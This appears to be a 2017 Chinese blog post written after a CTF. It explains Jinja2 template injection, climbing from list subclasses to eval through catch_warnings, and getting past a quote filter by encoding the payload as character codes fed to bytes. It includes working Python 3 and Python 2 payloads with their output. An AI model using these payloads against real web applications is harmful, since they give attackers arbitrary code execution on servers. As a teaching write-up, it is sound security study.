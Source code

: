 Title: jinja2 模板注入绕过引号任意代码执行  
Tags: python, 小结  

###intro
不久前 plaidctf 中有一题模板注入， 但是引号会被过滤掉， 挣扎了很久， 非常痛苦， 到最后要用 eval 任意代码执行的时候想到不能有引号没有办法构造字符串， 岂不是依然 GG。~~（当然最后是用其他的方法~~

后来想了一下绕过引号的方法。

首先模板注入的原理是在 jinja2 中可以访问对象的属性，同时列表是存在的， 这样可以通过访问列表的属性一层层的找到其他类或者是`__buildtins__`, 然后找出 `eval`进行任意代码执行， 绕过沙盒的限制


```python
#! python3

from jinja2 import Template
Template('{}'.format('{{[].__class__}}')).render()

#output "<class 'list'>"
``` 

我们可以通过这种方法调用自带的函数或者对象， 通过`subclasses` 找到更加多的类

```python

[].__class__.__base__.__subclasses__()

print([].__class__.__base__.__subclasses__()[0])
#output type
```

之后利用其中的 `catch_warnings` 访问 globals 定位出 `eval`， 然后进行任意代码执行。



```python
#python3 

In [146]: [].__class__.__base__.__subclasses__()[166]
Out[146]: warnings.catch_warnings

In [153]: Template('{{[].__class__.__base__.__subclasses__()[166].__init__.__g
     ...: lobals__.__builtins__.eval("1+1")}}').render()
Out[153]: '2'
```


###绕过引号
一般情况下， `%`会被过滤， 但是如果引号也被过滤的话怎么构造出 eval 可以执行的字符串呢？

特别说明的是 `chr` 是没有办法在模板中调用的。因为在沙盒中这个函数是不存在的。（`chr`？不存在的。）

我们可以使用数字列表转化成字节流， 之后转化成字符串的方法。
 

利用`bytes`， 但是 python3和 python2略有不同

```python
# python3

In [156]: bytes([49, 43, 49])
Out[156]: b'1+1'

In [157]: eval(bytes([49, 43, 49]))
Out[157]: 2
```

####python3
利用：

```python
from jinja2 import Template

attack_str = '__import__("sys").version'
attack_list = [ord(i) for i in attack]
attack_input='{{' + '[].__class__.__base__.__subclasses__()[166].__init__.__globals__.__builtins__.eval([].__class__.__base__.__subclasses__()[6]({attack_list}))'.format(attack_list=attack_list) + '}}'

print(attack_input)
#output {{[].__class__.__base__.__subclasses__()[166].__init__.__globals__.__builtins__.eval([].__class__.__base__.__subclasses__()[6]([95, 95, 105, 109, 112, 111, 114, 116, 95, 95, 40, 34, 115, 121, 115, 34, 41, 46, 118, 101, 114, 115, 105, 111, 110]))}}

Template('{user_input}'.format(user_input=attack_input)).render()

#output '3.6.1 (default, Mar 23 2017, 16:49:06) \n[GCC 4.2.1 Compatible Apple LLVM 8.0.0 (clang-800.0.42.1)]'


```

####python2

python2 的`catch_warnings`在`[59]`的位置， 另外 python2 的 eval 不接受字节流， 需要特别调用`__str__`方法来转化成字符串。其余和 python3相同。

```python
Template('{{[].__class__.__base__.__subclasses__()[59].__init__.__globals__.__builtins__.eval([].__class__.__base__.__subclasses__()[6]([95, 95, 105, 109, 112, 111, 114, 116, 95, 95, 40, 34, 115, 121, 115, 34, 41, 46, 118, 101, 114, 115, 105, 111, 110]).__str__())}}').render()

#output u'2.7.10 (default, Feb  6 2017, 23:53:20) \n[GCC 4.2.1 Compatible Apple LLVM 8.0.0 (clang-800.0.34)]'
```

---
2017-05-01 20:33:47